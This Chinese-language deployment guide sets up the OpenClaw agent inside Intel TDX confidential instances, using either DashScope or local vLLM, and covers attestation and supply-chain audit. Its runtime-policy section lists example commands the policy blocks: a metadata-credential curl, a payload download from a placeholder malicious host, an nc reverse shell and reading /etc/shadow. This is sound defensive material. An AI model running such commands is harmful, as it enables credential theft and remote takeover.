




# 一键构建 OpenClaw 机密 AI Agent（百炼 API 与本地 vLLM 双场景）

## 背景信息

OpenClaw（[openclaw.ai](https://openclaw.ai)）是一款开源个人 AI Agent，支持插件式工具调用、Live Canvas 可视化工作区、IM 平台集成以及 Agent 驱动架构。AI Agent 在运行过程中会处理用户对话、调用外部工具、管理长期记忆和服务凭证，攻击面覆盖从模型请求到工具执行的完整链路。

Confidential Agent 将 OpenClaw 封装在 Intel TDX（Trust Domain Extensions）可信执行环境中，并结合远程证明、dm-verity、Rekor 透明日志、PEP 策略执行点和 RATS-TLS 加密访问，保护用户对话、Agent 状态、SKILL 文件、模型调用凭据和工具执行过程。

本文合并覆盖两种最佳实践：

| 场景 | one-click 入口 | 推理后端 | 推荐实例 | 数据边界 |
| --- | --- | --- | --- | --- |
| OpenClaw + 百炼 API | `one-click/install.sh` | 阿里云百炼 DashScope API | `ecs.g9i.xlarge` | Agent、记忆、凭据在 TDX 内；Prompt 和回复经 HTTPS 发送到百炼 API。 |
| OpenClaw + vLLM | `one-click/install-openclaw-vllm.sh` | 实例内 vLLM + Qwen3.6-35B-A3B | `ecs.gn8v-tee.4xlarge` | Agent、模型权重、推理中间态和回复均在 GPU TEE/TDX 实例内处理。 |

> **重要**
>
> 百炼 API 场景部署简单、成本较低，适合轻量 Agent 和托管模型调用。vLLM 场景需要 GPU TEE 库存和更长启动时间，适合要求模型推理也不离开 TEE 边界的场景。

### 安全架构



Confidential Agent 的保护范围包括：

| 保护对象 | 说明 |
| --- | --- |
| 用户对话隐私 | 用户输入、工具执行上下文和 AI 回复，可能包含个人身份、医疗、金融等敏感信息。 |
| Agent 记忆与状态 | OpenClaw 的长期记忆、配置、SKILL 文件和运行状态。 |
| 服务凭证 | DashScope API Key、钉钉 OAuth 凭据、OpenClaw Gateway Token、模型服务配置等。 |
| vLLM 模型资产 | vLLM 场景中的模型权重、GPU 驱动运行状态和推理中间态。 |

安全能力自底向上覆盖五层：

| 保护层级 | 机制 |
| --- | --- |
| 硬件层 | Intel TDX 对 Guest OS 内存透明加密；gn8v-tee 场景同时使用 NVIDIA GPU 机密计算能力。 |
| 启动链 | UKI 统一内核镜像和 dm-verity rootfs 防篡改；镜像参考值上传 Rekor。 |
| 运行时 | `cai-pep` 对高危命令、敏感路径和网络访问执行策略拦截。vLLM 场景强制启用 PEP。 |
| 密钥管理 | 磁盘密钥、OpenClaw 配置和凭据仅在远程证明通过后注入。 |
| 通信链路 | TNG RATS-TLS 在建立连接前完成远程证明验证，全程加密传输。 |

### 部署流程



一键脚本会在部署机上完成以下工作：

1. 安装 Alibaba Cloud Linux 3 构建依赖、Docker、Rust、Node.js、OpenClaw CLI 和 Shelter。
2. 构建 `confidential-agent`、`confidential-agentd`、`cai-gateway`，并在启用 PEP 时构建 `cai-pep`。
3. 构建包含 `cosign`、`rekor-cli`、TNG 和远程证明客户端的 `confidential-agent-tools:latest`。
4. 生成 OpenClaw 配置和 AppSpec，构建可信镜像并上传 Rekor 参考值。
5. 创建 ECS、VPC、交换机、安全组、OSS Bucket、自定义镜像等云资源。
6. 通过远程证明注入 OpenClaw 配置、Gateway Token、密钥和可选钉钉凭据。
7. 启动本地 TNG connect 隧道，验证 Web 控制台可访问。

## 前提条件

请准备一台全新的 Alibaba Cloud Linux 3 ECS 作为部署机。部署机只负责构建和部署，承载 OpenClaw 的 TDX/GPU TEE 实例会由一键脚本自动创建。

| 条件 | 百炼 API 场景 | vLLM 场景 |
| --- | --- | --- |
| 部署机系统 | Alibaba Cloud Linux 3 | Alibaba Cloud Linux 3 |
| 部署机磁盘 | 不低于 80 GB | 建议不低于 200 GB |
| 目标实例 | `ecs.g9i.xlarge`，默认 `cn-beijing-i` | `ecs.gn8v-tee.4xlarge`，默认 `cn-beijing-l` |
| 目标系统盘 | 默认 200 GB | 默认 512 GB |
| 阿里云权限 | ECS、VPC、安全组、OSS、自定义镜像、镜像导入角色 | 同左，并需要 GPU TEE 实例库存和购买权限 |
| 模型凭据 | DashScope API Key | 不需要 DashScope API Key |
| 可选集成 | 钉钉企业内部应用凭据 | 钉钉企业内部应用凭据 |

> **说明**
>
> 如果 `ecs.gn8v-tee.4xlarge` 暂时无库存，请等待库存恢复或尝试同规格族其他 GPU TEE 可用区。

## 操作步骤

### 步骤一：准备部署机凭证

登录部署机后，设置阿里云访问凭证：

```bash
export ALICLOUD_ACCESS_KEY="<YOUR_ACCESS_KEY>"
export ALICLOUD_SECRET_KEY="<YOUR_SECRET_KEY>"
```

部署百炼 API 场景时，还需要设置 DashScope API Key：

```bash
export DASHSCOPE_API_KEY="<YOUR_DASHSCOPE_API_KEY>"
```

如需启用钉钉接入，继续设置：

```bash
export DINGTALK_BOT_CLIENT_ID="<YOUR_DINGTALK_CLIENT_ID>"
export DINGTALK_BOT_CLIENT_SECRET="<YOUR_DINGTALK_CLIENT_SECRET>"
```

这些凭证仅在当前 shell 生效。一键脚本不会把阿里云凭证或 DashScope API Key 写入源码仓库；OpenClaw 配置和 Token 会在远程证明通过后注入到机密实例内。

### 步骤二：部署 OpenClaw + 百炼 API

交互式部署：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh
```

非交互部署示例：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- \
  --non-interactive \
  --yes \
  --region cn-beijing \
  --zone-id cn-beijing-i \
  --instance-type ecs.g9i.xlarge \
  --disk-gb 200 \
  --bailian-model qwen3.7-max
```

百炼 API 场景默认启用 PEP。如只验证 OpenClaw、百炼、远程证明资源注入、TNG connect 和 Gateway Token 基础链路，可显式禁用 PEP：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- \
  --non-interactive \
  --yes \
  --disable-pep
```

### 步骤三：部署 OpenClaw + vLLM

vLLM 场景在 GPU TEE 实例内启动本地 vLLM OpenAI-compatible API，OpenClaw 通过 `local-vllm` provider 调用 `http://127.0.0.1:8090/v1`。

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install-openclaw-vllm.sh | sh -s -- \
  --non-interactive \
  --yes \
  --region cn-beijing \
  --zone-id cn-beijing-l \
  --instance-type ecs.gn8v-tee.4xlarge \
  --disk-gb 512
```

vLLM 默认配置如下：

| 配置项 | 默认值 |
| --- | --- |
| ModelScope 模型 | `Qwen/Qwen3.6-35B-A3B` |
| 模型目录 | `/opt/models/Qwen3.6-35B-A3B` |
| served model name | `Qwen3.6-35B-A3B` |
| vLLM 版本 | `0.19.1` |
| vLLM 端口 | `8090` |
| 镜像变体 | 默认构建并部署 `release` 变体 |

如需覆盖模型或端口，传入：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install-openclaw-vllm.sh | sh -s -- \
  --non-interactive \
  --yes \
  --vllm-model-id Qwen/Qwen3.6-35B-A3B \
  --vllm-model-dir /opt/models/Qwen3.6-35B-A3B \
  --vllm-served-model-name Qwen3.6-35B-A3B \
  --vllm-port 8090 \
  --vllm-version 0.19.1
```

> **重要**
>
> vLLM 场景强制启用 `cai-pep`，并安装 `tdx-remote-attestation` skill 到 `/home/openclaw/.openclaw/skills/tdx-remote-attestation/SKILL.md`。该 skill 依赖 `cai-pep attest collect-and-verify` 在 guest 本机执行远程证明，不支持 `--disable-pep`。

排障时，可显式构建 `debug` 变体以启用 debug SSH：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install-openclaw-vllm.sh | sh -s -- \
  --non-interactive \
  --yes \
  --vllm-build-variants debug
```

该开关仅影响本次构建选择；正式默认值仍为 `release`。如需同时保留 release 产物并部署 debug 变体，可传入 `--vllm-build-variants release,debug`。

### 步骤四：确认 operator CIDR

脚本会探测部署机公网出口 IP，并把 operator 入口限制到该 IP `/32`。非交互模式下可通过 `--allowed-cidr` 指定一个或多个 CIDR：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- \
  --non-interactive \
  --yes \
  --allowed-cidr 203.0.113.10/32,198.51.100.0/24
```

`--allowed-cidr` 表示用户或运维入口 CIDR；脚本仍会额外探测部署机公网出口 IP，并写入单独的 `deployer` peering，保证部署阶段资源注入、状态检查和 connect 流程可达。

> **警告**
>
> `0.0.0.0/0` 会扩大暴露面。默认 OpenClaw 配置禁用 device auth，控制面主要由 OpenClaw Gateway Token 保护。生产环境请限制为具体公网出口 IP 或企业出口 CIDR。

### 步骤五：等待部署完成

部署成功后，脚本会输出类似信息：

```text
Confidential Agent one-click summary
  state_dir: /root/.confidential-agent
  work_dir:  /root/.confidential-agent/one-click
  spec:      /root/.confidential-agent/one-click/openclaw-vllm/openclaw-vllm.yaml
  service:   openclaw-vllm
  region:    cn-beijing
  zone_id:   cn-beijing-l
  instance:  ecs.gn8v-tee.4xlarge
  cidrs:     203.0.113.10/32
  deployer:  203.0.113.10/32
  dingtalk:  0
  pep:       enabled
  token:     <generated-or-provided-token>
  web:       http://127.0.0.1:18789/openclaw
  ws/api:    ws://127.0.0.1:18789
  tui:       openclaw tui --url ws://127.0.0.1:18789 --token "<generated-or-provided-token>"
```

OpenClaw Gateway Token 保存在 `$HOME/.confidential-agent/one-click/secrets/gateway.token`。后续重跑会复用同一个 Token；如需轮换，删除该文件后重跑脚本。该 Token 是 OpenClaw 应用层访问 Token，不是 `cai-gateway` 的客户端凭据。

### 步骤六：访问 OpenClaw



#### Web 控制台

如果浏览器运行在部署机上，直接访问：

```text
http://127.0.0.1:18789/openclaw
```

如果浏览器运行在个人电脑上，先建立 SSH 端口转发：

```bash
ssh -L 18789:127.0.0.1:18789 root@<DEPLOY_MACHINE_PUBLIC_IP>
```

然后访问 `http://127.0.0.1:18789/openclaw`，输入步骤五输出的 Gateway Token。

#### OpenClaw 桌面客户端

配置 Remote 模式：

| 配置项 | 值 |
| --- | --- |
| Server URL | `ws://127.0.0.1:18789` |
| Token | 步骤五输出的 OpenClaw Gateway Token |

#### OpenClaw TUI

```bash
openclaw tui --url ws://127.0.0.1:18789 --token <YOUR_GATEWAY_TOKEN>
```

#### 钉钉聊天

部署时传入 `--enable-dingtalk`，并确保 `DINGTALK_BOT_CLIENT_ID` 和 `DINGTALK_BOT_CLIENT_SECRET` 已设置。钉钉请求进入 OpenClaw 后，配置、凭据和 Agent 状态均在机密实例内处理。

### 步骤七：查询当前安全状态

启用 PEP 的场景会内置 `tdx-remote-attestation` skill。用户可在 Web、TUI 或钉钉中询问：

```text
我的数据安全吗？
这个环境可信吗？
请验证当前 TDX 运行环境。
```

skill 必须通过以下命令获取并验证远程证明：

```bash
cai-pep attest collect-and-verify \
  --aa-url http://localhost:8006 \
  --tee tdx \
  --policy default \
  --claims
```

返回内容应关注：

| 验证项 | 说明 |
| --- | --- |
| `hardware` | `submods.cpu0["ear.trustworthiness-vector"].hardware <= 32` 视为硬件验证通过。 |
| UKI/RTMR 度量 | 用于展示启动链度量；只有匹配 reference value 后才能说明与构建参考值一致。 |
| GPU evidence | vLLM/GPU TEE 场景中，如 claims 包含 `nvidia_gpu.0` 且字段正常，才说明 GPU evidence 可被验证。 |
| PEP 状态 | 如果 `cai-pep` 服务不可用，不能声称工具执行沙箱保护已生效。 |

日志中的 WARN，例如 collateral 过期提示或 GPU evidence 为空提示，不应直接当作认证失败。认证结论以 JSON claims 中的硬件和 evidence 字段为准。

### 步骤八：释放资源

释放百炼 API 场景资源：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install.sh | sh -s -- cleanup \
  --state-dir "$HOME/.confidential-agent"
```

释放 vLLM 场景资源：

```bash
curl -fsSL https://raw.githubusercontent.com/inclavare-containers/confidential-agent/one-click/one-click/install-openclaw-vllm.sh | sh -s -- cleanup \
  --state-dir "$HOME/.confidential-agent"
```

也可以直接使用本地二进制：

```bash
confidential-agent destroy openclaw
confidential-agent destroy openclaw-vllm
```

如需手动停止本地 connect 隧道：

```bash
kill "$(cat "$HOME/.confidential-agent/one-click/connect.pid")"                  # openclaw
kill "$(cat "$HOME/.confidential-agent/one-click/connect-openclaw-vllm.pid")"     # openclaw-vllm
```

> **警告**
>
> 销毁操作不可逆，会删除 ECS 实例、自定义镜像、OSS 对象、安全组、VPC、交换机等云资源。确认云资源已释放后，才建议删除本地状态目录：
>
> ```bash
> rm -rf "$HOME/.confidential-agent"
> ```

资源清理关系如下：



## PEP 策略拦截演示

`cai-pep` 是运行时策略执行点。当 OpenClaw 通过 exec 工具执行命令时，请求会先经过 `cai-pep` 策略匹配，再进入隔离的 Docker sandbox 执行。

PEP 默认拦截：

| 类型 | 示例命令 | 目的 |
| --- | --- | --- |
| 网络访问 | `curl http://169.254.169.254/latest/meta-data/` | 防止访问云元数据服务泄露凭据。 |
| 下载外部代码 | `wget http://malicious.example.com/payload` | 防止 Prompt 注入下载恶意载荷。 |
| 反向 Shell | `nc 10.0.0.99 4444 -e /bin/bash` | 阻止建立反向连接。 |
| 远程登录 | `ssh root@external-host` | 防止越权访问外部系统。 |
| 容器操作 | `docker ps` | 防止操作宿主机容器。 |
| 敏感路径 | `cat /etc/shadow` | 阻止读取敏感系统文件。 |

## Rekor 供应链审计

默认 `reference_values=rekor`。构建完成后，可在状态目录下找到 Rekor metadata：

```bash
find "$HOME/.confidential-agent" -name "*.rekor-meta.json" -print
```

每个条目对应一份 SLSA provenance，包含 log index 和 entry URL。远程证明注入时，Confidential Agent 会从 Rekor 拉取参考值并写入 Trustiflux，只有运行环境度量值与参考值匹配时，机密资源注入才会成功。

验证 inclusion proof：

```bash
docker run --rm --network host confidential-agent-tools:latest \
  rekor-cli verify --log-index <LOG_INDEX> --rekor_server https://rekor.sigstore.dev
```

查看 Rekor 日志一致性：

```bash
docker run --rm --network host confidential-agent-tools:latest \
  rekor-cli loginfo --rekor_server https://rekor.sigstore.dev
```

## 常见问题

#### Q1：`peering 'ops' already exists with a different CIDR`

传入与现有 peering 一致的 `--allowed-cidr`，或在交互模式确认替换；非交互模式下追加 `--yes`。

#### Q2：`Shelter is required` 或 `SLSA generator is required`

确认仓库 `hack/` 下存在 `shelter-*.rpm`，或通过 `--shelter-rpm` 指定 RPM。

#### Q3：Web 端口打不开

检查 connect 日志和安全组：

```bash
tail -F "$HOME/.confidential-agent/one-click/connect.log"
tail -F "$HOME/.confidential-agent/one-click/connect-openclaw-vllm.log"
confidential-agent status --live
```

如果部署机公网出口 IP 变化，重新运行一键脚本或更新 `deployer` peering。

#### Q4：百炼 API 场景 chat 不可用

优先检查 `DASHSCOPE_API_KEY`、模型是否可用、账号是否欠费，以及 guest 中 OpenClaw 网关日志：

```bash
journalctl -u cai-openclaw-gateway.service -n 200 --no-pager
```

#### Q5：vLLM 场景长时间不可用

vLLM 首次启动需要安装 GPU 驱动、准备 Python 环境、下载模型并启动模型服务。如果为了排障显式部署了 `debug` 变体，可通过 debug SSH 登录 guest 后检查：

```bash
nvidia-smi
systemctl status cai-nvidia-cc-bootstrap.service --no-pager -l
systemctl status cai-modelscope-fetch.service --no-pager -l
systemctl status cai-vllm.service --no-pager -l
curl -fsS http://127.0.0.1:8090/v1/models
journalctl -u cai-openclaw-gateway.service -n 200 --no-pager
```

如果 `/dev/nvidia0` 不存在，优先检查实例是否为 `ecs.gn8v-tee.*`、GPU 驱动安装日志和内核模块加载状态。

#### Q6：TDX skill 无法确认环境可信

确认 `cai-pep`、Trustiflux API server 和 attestation agent 正常：

```bash
systemctl status cai-pep.service trustiflux-api-server.service attestation-agent.service --no-pager -l
cai-pep attest collect-and-verify --aa-url http://localhost:8006 --tee tdx --policy default --claims
```

如果命令没有返回 JSON claims、缺少 trustworthiness vector、缺少 `mr_td`/`rtmr_*`/UKI 度量等关键字段，不能声称远程证明通过。

#### Q7：钉钉无响应

检查部署时是否传入 `--enable-dingtalk`，钉钉 `Client ID`/`Client Secret` 是否正确，钉钉应用是否具备发送和接收消息权限，并查看：

```bash
openclaw status
journalctl -u cai-openclaw-gateway.service -n 200 --no-pager
```

#### Q8：`cai-pep` 拒绝所有工具调用

查看 PEP 日志定位策略拒绝原因：

```bash
journalctl -u cai-pep.service -n 200 --no-pager
```

## 结果验证记录

本最佳实践对应的验证范围包括：

| 场景 | 验证项 |
| --- | --- |
| one-click OpenClaw + 百炼 API | 依赖安装、Shelter RPM 安装、源码构建、tools 镜像构建、可信镜像构建、Rekor 上传、TDX ECS 创建、资源注入、TNG connect、Web 可达性、Gateway Token 鉴权、chat probe、TDX skill probe。 |
| one-click OpenClaw + vLLM | vLLM spec/config 生成、NVIDIA CC bootstrap 文件打包、PEP/TDX skill 打包、GPU TEE spec 校验、Rekor 配置、connect/Web readiness、vLLM `/v1/models` readiness、OpenClaw chat probe。 |

完整云端验证必须在全新的 Alibaba Cloud Linux 3 部署机上执行文档中的 one-click 命令，不复用本地开发机或旧状态目录。
